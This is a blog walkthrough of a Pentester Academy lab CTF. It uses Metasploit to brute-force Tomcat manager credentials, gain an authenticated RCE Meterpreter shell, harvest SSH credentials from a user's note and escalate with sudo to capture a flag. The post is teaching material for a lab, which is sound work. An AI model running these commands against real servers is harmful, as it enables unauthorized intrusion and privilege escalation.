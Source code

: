 +++
author = "Nick"
categories = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
date = 2020-01-05T18:56:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/attackdefend-2.png"
slug = "attack-defense-metasploit-ctf-3"
summary = "In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two Metasploit modules. A module to test for valid user credentials and an authenticated RCE."
tags = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
title = "Attack | Defense - Metasploit CTF 3"

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

{{< figure src="__GHOST_URL__/content/images/2019/12/image-77.png" >}}

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.192.223.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.192.223.3)
Host is up (0.000036s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.37
MAC Address: 02:42:C0:C0:DF:03 (Unknown)

Nmap scan report for target-2 (192.192.223.4)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:C0:DF:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`Target-1` has two services running. `Jserv` and `Tomcat` both known to have some flaws in them. Let's use `searchsploit` to see if there are any `Metasploit` modules we can leverage.

Command:
`searchsploit jserv`
`searchsploit 'tomcat metasploit'`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-78.png" >}}

We see that we have a few `Tomcat` modules but no `Metasploit` modules returned for `Jserv`. Let's load `Metasploit`.

Command:
`msfdb run` or `msfconsole`

Once loaded, lets find the module we want to use.

Command:
`msf5> search tomcat`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-80.png" >}}

Quite a few modules come back. We see there are some authenticated modules and some RCE's. However, the first thing we want to try is to enumerate our possible login options. So for that we will use the `tomcat_mgr_login` module.

Command:
`msf5> use auxiliary/scanner/http/tomcat_mgr_login` or `msf5> use 8`

Once our module is loaded, we check our `options`.

Command:
`show options`

In this module, we will want to `set` our `rhosts` and that's it. Now in a larger CTF setting you would probably want to change the `pass_file`. This is the parameter that sets the password list. You could set it to something much larger, like `rockyou.txt` or something you've currated yourself and is more specific.

Command:
`msf5> set rhost target-1`

Then `run` our payload.
`msf5> run`

{{< figure src="__GHOST_URL__/content/images/2019/12/CTF_3_tomcat_mod.gif" >}}

We see a successful credential pair: `tomcat`:`tomcat`. The default credentials. Well now that we know we have a valid set of credentials, we can seek to leverage them for an `Authenticated RCE`. 

When we look back on our listing of modules, we see there is an `Authenticated RCE` listed as `tomcat_mgr_upload`. We'll use that.

Command:
`msf5> use exploit/multi/http/tomcat_mgr_upload` or `msf5> use 15`

We check out `options` inside the module.

Command:
`msf5> show options`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-81.png" >}}

We have quite a few options to set here: `HttpPassword`, `HttpUsername`, `rhosts` and `rport`.

Commands:
`msf5> set HttpPassword tomcat`
`msf5> set HttpUsername tomcat`
`msf5> set rhosts target-1`
`msf5> set rport 8080`

In this scenario, we are setting our `HttpPassword` and `HttpUsername` to the credentials we verified earlier. Something we haven't done yet is set our `rport`. The default port here is 80, however, we determined that `Tomcat` is running on 8080.

We then `run` our exploit.

Command:
`msf5> run` or `msf5> exploit`

{{< figure src="__GHOST_URL__/content/images/2019/12/CTF_3_tomcat_aRCE.gif" >}}

It worked! We not have a valied `Meterpreter` session! This is different than a normal shell. You can read all about what `Meterpreter` is [here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/). For the purpose of this post, you just need to know it's a more advanced shell. 

We can use standard Linux commands inside this shell to navigate around and do some enumeration. We head to `/home` to see what users are listed.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-82.png" >}}

We have one user `devadmin`. Inside his home directory is a file called `note`.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-83.png" >}}

We look at it's contents and see some credentials.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-84.png" >}}

Great! We can safely assume that we are going to use these credentials to log into `target-2`. We will `background` our current shell just in case we need it later.

Command:
`meterpreter > background`

Then we'll exit the module we were in:

Command:
`msf5> back`

Now we are back to a standard `Metasploit` prompt. We can `SSH` from here! That's right, `Metasploit` will let us use many of our native Linux commands from within it's commandline.

Command:
`msf5> ssh admin@target-2`

We enter the password and accept our fingerprinting.

{{< figure src="__GHOST_URL__/content/images/2019/12/CTF_3_tomcat_target-2_ssh.gif" >}}

We have admin credentials on the system but now what? We aren't root but we can try to switch the root user.

Command:
`sudo su`

Once we do that we are given an elevated prompt!

{{< figure src="__GHOST_URL__/content/images/2019/12/image-85.png" >}}

We then head to `/root/` to find the `flag` file.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-86.png" >}}

Another CTF down! Hopefully this has been a learning experience for anyone that has read it through. Next up Metasploit CTF 4!



